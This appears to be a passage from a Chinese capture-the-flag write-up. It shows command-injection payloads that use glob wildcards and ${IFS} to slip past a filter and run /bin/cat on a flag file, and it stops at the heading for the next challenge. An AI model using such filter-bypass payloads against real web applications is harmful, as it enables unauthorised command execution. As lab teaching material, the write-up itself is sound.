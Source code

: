 比如：想要利用cat命令，我们可以使用

```
?c=/bin/cat
```

来实现，由此可以构建命令

```
?c=/bin/?at${IFS}f???????
?c=/bin/??t$IFS????????
```

在源码里查看flag

![image-20240120173008944](image/image-20240120173008944.png)

#### web55

分析
